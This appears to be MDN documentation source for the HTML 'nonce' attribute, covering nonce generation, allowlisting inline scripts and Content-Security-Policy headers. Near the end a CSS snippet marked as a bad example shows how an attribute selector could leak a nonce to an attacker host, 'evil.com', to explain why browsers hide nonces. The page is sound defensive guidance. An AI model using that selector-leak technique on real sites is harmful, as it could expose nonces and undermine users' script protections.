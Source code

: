 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
page-type: html-attribute
browser-compat: html.global_attributes.nonce
---
```


{{HTMLSidebar("Global_attributes")}}

The **`nonce`** [global attribute](/Web/HTML/Global_attributes)
is a content attribute defining a cryptographic nonce ("number used once") which can be used by
[Content Security Policy](/Web/HTTP/CSP) to determine whether or not a given fetch will
be allowed to proceed for a given element.

## Description

The `nonce` attribute is useful to allowlist specific elements, such as a particular inline script or style elements.
It can help you to avoid using the [CSP](/Web/HTTP/CSP) `unsafe-inline` directive, which would allowlist _all_ inline scripts or styles.

> [!NOTE]
> Only use `nonce` for cases where you have no way around using unsafe inline script
> or style contents. If you don't need `nonce`, don't use it. If your script is static, you could also use a CSP hash instead.
> (See usage notes on [unsafe inline script](/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Always try to take full advantage of [CSP](/Web/HTTP/CSP) protections and avoid nonces or unsafe inline scripts whenever possible.

### Using nonce to allowlist a \<script> element

There are a few steps involved to allowlist an inline script using the nonce mechanism:

#### Generating values

From your web server, generate a random base64-encoded string of at least 128 bits of data from a cryptographically secure
random number generator. Nonces should be generated differently each time the page loads (nonce only once!). For example, in nodejs:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Allowlisting inline script

The nonce generated on your backend code should now be used for the inline script that you'd like to allowlist:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Sending a nonce with a CSP header

Finally, you'll need to send the nonce value in a
[`Content-Security-Policy`](/Web/HTTP/Headers/Content-Security-Policy) header
(prepend `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Accessing nonces and nonce hiding

For security reasons, the `nonce` content attribute is hidden (an empty string will be returned).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

The [`nonce`](/Web/API/HTMLElement/nonce) property is the only way to access nonces:

```js example-good
script.nonce; // returns nonce value
```

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data
from content attributes like this:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications



## Browser compatibility



## See also

- [`HTMLElement.nonce`](/Web/API/HTMLElement/nonce)
- [Content Security Policy](/Web/HTTP/CSP)
- CSP: [`script-src`](/Web/HTTP/Headers/Content-Security-Policy/script-src)
